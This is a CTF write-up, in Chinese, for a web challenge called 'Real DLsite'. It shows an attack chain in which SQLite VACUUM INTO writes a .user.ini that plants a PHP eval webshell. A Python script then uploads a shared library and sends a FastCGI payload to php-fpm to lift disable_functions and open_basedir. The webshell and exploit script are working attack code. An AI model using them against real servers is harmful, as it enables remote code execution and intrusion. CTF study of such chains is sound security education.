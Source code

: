 # 【 ? 】Real DLsite

本题在 CTF Web 题中也算比较难的类型，并没有让大家做出来的打算。算是让大家见识见识吧。

对不起各位，wp 忘记存了！只能在这里简单地复述一下：

首先可以进到管理界面，任意执行单行 SQLite3 表达式。

这时候需要用到一个新的特性，VACUUM INTO 可以将当前数据库 dump 一份到目标文件，相当于内容有限制的任意写。

而题目环境中仅有一个关键文件 .user.ini 是可写的。

结合 PHP 对 ini 解析的松散型，可以在数据库里插入包含 ```\r\n``` 的表，后面跟个 # 注释，只要前边不包含 [ 或 ( 这种关键字符，php 就可以正常解析，注入一个 auto_append_file，等到五分钟 cache 过期后拿到 webshell 。

```sqlite
DROP TABLE CONFIG;
CREATE TABLE `%0d%0aauto_append_file = "/var/www/html/db.sqlite" ; <?php @eval($_REQUEST[0]); ?>` (ID INT);
VACUUM main INTO '/var/www/html/.user.ini';
CREATE TABLE CONFIG (NAME VARCHAR, TYPE VARCHAR, VALUE VARCHAR);
```

![poc](images/161-1.png)

然后绕过 disable_functions 直接打 fpm 就行：

```python
import requests, base64

URL = 'http://IP:PORT/view?p=/doc'

with open('preload.so', 'rb') as f:
    preload = f.read()

params = {'0': 'file_put_contents("/tmp/preload.so", hex2bin("'+preload.hex()+'"));'}
res = requests.post(URL, data=params)
print(res.status_code)

# Generated by fpm.py
payload = b'\x01\x01\x9f\x9c\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x9f\x9c\x02g\x00\x00\x11\x0bGATEWAY_INTERFACEFastCGI/1.0\x0e\x04REQUEST_METHODPOST\x0f\x15SCRIPT_FILENAME/var/www/html/inc.php\x0b\x15SCRIPT_NAME/var/www/html/inc.php\x0c\x00QUERY_STRING\x0b\x15REQUEST_URI/var/www/html/inc.php\r\x01DOCUMENT_ROOT/\x0f\x0eSERVER_SOFTWAREphp/fcgiclient\x0b\tREMOTE_ADDR127.0.0.1\x0b\x04REMOTE_PORT9985\x0b\tSERVER_ADDR127.0.0.1\x0b\x02SERVER_PORT80\x0b\tSERVER_NAMElocalhost\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0c\x10CONTENT_TYPEapplication/text\x0e\x02CONTENT_LENGTH19\t\x1fPHP_VALUEauto_prepend_file = php://input\x0f\x80\x00\x00\xa5PHP_ADMIN_VALUEallow_url_include = On\nextension_dir = /tmp\nextension = preload.so\ndisable_classes =\ndisable_functions =\nopen_basedir = /\ndisplay_errors = On\nerror_reporting = E_ALL\x01\x04\x9f\x9c\x00\x00\x00\x00\x01\x05\x9f\x9c\x00\x13\x00\x00<?php phpinfo(); ?>\x01\x05\x9f\x9c\x00\x00\x00\x00'

params = {'0': '''echo "START";
$fp = fsockopen("127.0.0.1", 9000);
fwrite($fp, PAYLOAD);
while (!feof($fp)) echo fgets($fp, 1024);
fclose($fp);
echo "END";'''.replace('PAYLOAD', 'base64_decode("'+base64.b64encode(payload).decode()+'")')}

res = requests.get(URL, params=params)
print(res.text.partition('START')[2].partition('END')[0])
```



